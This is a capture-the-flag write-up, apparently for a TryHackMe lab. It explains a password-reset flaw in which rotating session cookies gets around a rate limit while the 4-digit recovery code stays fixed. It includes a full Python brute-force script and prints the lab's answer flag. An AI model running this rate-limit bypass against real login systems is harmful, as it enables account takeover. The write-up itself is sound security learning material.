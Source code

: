 # Brute forcing 4-digit code

Using the email `tester@hammer.thm` we have found from the enumeration phase, we can explore the reset password feature.

### Overview of password recovery process

**(1)** Enter email in the **Reset Password** page

POST `/reset_password.php` (email=tester%40hammer.thm)

> NOTE: this request must be performed before attempting to POST the recovery code (refer to step 3)&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Response**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**(2)** A `GET /reset_password.php` request will be sent.&#x20;

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

If the cookie is valid (not expired), we will be presented with a form to enter the 4-digit recovery code.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**(3)** Send recovery code

POST `/reset_password.php` with recovery code and **s** parameter defined in the request body.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

A script exist that automatically logs the user out after a set period of time. The value `countdownv` is used as the time variable, which appears to be controlled by the **s** parameter in our request body:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

**Response**

If we send an expired cookie, we will get the following response:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

If the cookie is not expired, we will be able to send our recovery code. The image below shows the display for an invalid recovery code.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**(4)** Once the window period is over (`countdownv <=0`), the cookie will be expired, and the user will be automatically logged out.

Automatic logout: `GET /logout.php`

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

This will cause the application to expire our cookie.

**Response**

Set-Cookie to `PHPSESSID=deleted`.

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>

**(5)** From the `Location` header defined in the previous response, a `GET /index.php` request with no cookies will be sent, to redirect back to the main login page.

`GET /index.php`&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>REQUEST</p></figcaption></figure>

**Response**

New `PHPSESSID` in the Set-Cookie

* Retrieved `PHPSESSID: mgj0vc1q4908nel9i695d3mvj8`&#x20;
* This value will be sent as a cookie in the subsequent requests

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption><p>RESPONSE</p></figcaption></figure>



**(6)** The entire process repeats from step **(1)** above, with the newly retrieved cookie.&#x20;

### Findings

1. We can control the time period window in the reset password page (`/reset_password.php`) with the **s** parameter. However, this simply prevents the application from immediately expiring our cookie  (`GET /logout.php`), but does not work by itself when brute forcing the code.

### Attempting to brute force the code

1.  It appears that the application implements a rate limiting feature on the recovery code functionality. For a given `PHPSESSID`, we are only allowed 8 attempts within the window period, before it blocks any further requests. To workaround this, we have to retrieve a new `PHPSESSID` after every 8 brute force attempts. This can be done by **(#1)** sending a GET request to `/index.php`, with no cookies, before **(#2)** sending a POST request to `/reset_password.php` with the new cookie retrieved.

    * The flaw is in the way the application handles this process. When we perform step **(#1)**, the application simply associates our new cookie with the email, but fails to generate a new 4-digit code. Thus, this allows us to indefinitely reset our `PHPSESSID` session (without the 4-digit code changing), and eventually retrieve the correct code with _100%_ success rate.
    * This defeats the purpose of the rate limiting feature.



**Python script to brute force the 4-digit recovery code with&#x20;**_**100%**_**&#x20;success rate:**

```python
import requests

IP = input('[!] Enter the target IP address: ')

N = 8
MAX_CODE = 9999
PORT = 1337
URL = f'http://{IP}:{PORT}'
EMAIL = 'tester@hammer.thm'

headers = {
    'Host': f'{IP}{PORT}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0'
}


def retrieve_new_session():
    with requests.Session() as s:
        # session is updated automatically
        s.get(f'{URL}/index.php', headers=headers)

    return s


def enter_email(s):
    data = {
        'email': EMAIL
    }

    s.post(f'{URL}/reset_password.php',
           headers=headers, data=data)


def brute_force():

    try:

        # retrieve initial session
        s = retrieve_new_session()

        # enter email
        enter_email(s)

        iterations = MAX_CODE+1

        for i in range(iterations):

            if i % N == 0 and i != 0:
                print('[INFO] Retrieving new PHPSESSID')

                # request for a new PHPSESSID
                s = retrieve_new_session()

                # enter email
                enter_email(s)

            code = f'{i:04d}'

            data = {
                'recovery_code': code,
                's': 200
            }

            print(f'[INFO] Trying code={code}')

            res = s.post(f'{URL}/reset_password.php',
                         headers=headers, data=data)

            res_text = res.text
            res_status_code = res.status_code
            res_content_length = len(res.text)
            req_cookies = s.cookies.get_dict()

            # print(res_text)

            print(f'[INFO] status={res_status_code} content_length={
                res_content_length} cookies={req_cookies}')

            # wrong code
            if 'Invalid or expired recovery code!' in res_text:
                print('[INFO] Wrong code!')

            # valid code found
            else:
                print('[INFO] Success!')
                print(f'code={code}')
                exit()

    except KeyboardInterrupt:
        exit()


brute_force()

```

After running the script, we found the valid code!&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now, we have to manually insert the `PHPSESSID` value into our web browser cookies. Upon navigating to the reset password page, we can enter the found code, before being able to set a new password.

After logging in with our new password, we are presented with the dashboard page.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

With this, we have found the answer to our first question "_What is the flag value after logging in to the dashboard?_": `THM{AuthBypass3D}`
